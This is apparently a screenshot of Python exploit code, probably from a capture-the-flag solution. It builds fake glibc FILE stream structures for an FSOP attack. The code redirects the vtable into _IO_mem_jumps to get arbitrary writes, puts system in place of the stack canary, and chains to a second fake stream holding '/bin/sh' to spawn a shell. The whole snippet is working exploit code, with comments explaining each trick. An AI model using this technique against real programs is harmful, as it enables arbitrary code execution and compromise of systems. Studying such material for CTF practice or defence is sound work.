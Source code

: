 ```python

_flags = p32(0x0)
_flags_byte_hole = p32(0x0)
_IO_read_ptr = 0x0
_IO_read_end = 0x0
_IO_read_base = 0x0
_IO_write_base = what # here is our _mode field for our fake final FILE stream. Note we take only the 4 least significant bytes because _mode is int. Although we can shift our fake final FILE stream by 8 bytes and avoid this collision, I'm too lazy for that, so I will hope _mode to take a negative value after some runs thank you ASLR for making it possible ;)
_IO_write_ptr = _IO_write_base + what2
_IO_write_end = 0x0
_IO_buf_base = stack_guard - 0x18  # here will be our vtable of our final fake FILE stream. offset for __overflow is 0x18. We already putted system as our stack canary & as an entry for our fake vtable ;)
_IO_buf_end = 0x0
_IO_save_base = 0x0
_IO_backup_base = 0x0
_IO_save_end = 0x0
_markers = 0x0

_chain = (libc.sym._IO_2_1_stdout_ + 8) - 104 # reuse this trick, we have changed our _chain only the fly to point to our final fake FSOP.

_fileno = p32(0x0)
_flags2 = p32(0x0)
_old_offset = 0x0
_cur_column = p16(0x0)
_vtable_offset = p8(0x0)
_shortbuf = p8(0x0)
_shortbuf_byte_hole = p32(0x0)
_lock = libc.address + 0x1f21f0
_offset = 0x0
_codecvt = 0x0
_wide_data = _lock
_freeres_list = 0x0
_freeres_buf = 0x0
__pad5 = 0x0
_mode = p32(0x0)
_unused2 = b'\x00'*0x14

# here is the trick, by shifting the vtable in the range of __libc_IO_vtables we are not aborting the program, it is totally allowed.
vtable = libc.sym._IO_mem_jumps + 0x48  # now __overflow points to _IO_mem_sync, our magical two arbitrary write function ;)

fake_fs = _flags + _flags_byte_hole + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base) + p64(_IO_write_base) + p64(_IO_write_ptr) \
   + p64(_IO_write_end) + p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end) \
   + p64(_markers) + p64(_chain) + _fileno + _flags2 + p64(_old_offset) + _cur_column + _vtable_offset + _shortbuf + _shortbuf_byte_hole + p64(_lock) + p64(_offset) \
   + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf) + p64(__pad5) + _mode + _unused2 \
   + p64(vtable) + p64(0)*2 + p64(where) + p64(where2)

final_fake_fs_IO_write_base = 0x0
final_fake_fs_IO_write_ptr  = 0x1 # we want it bigger than _IO_write_base inorder to trigger _IO_OVERFLOW.
final_fake_fs = b'/bin/sh\x00' + p8(0)*0x18 + p64(final_fake_fs_IO_write_base) + p64(final_fake_fs_IO_write_ptr) + p8(0)*0x68 # we can place here only 0xa0 bytes, for our _mode & vtable we have to put them inside our previous fake_fs

```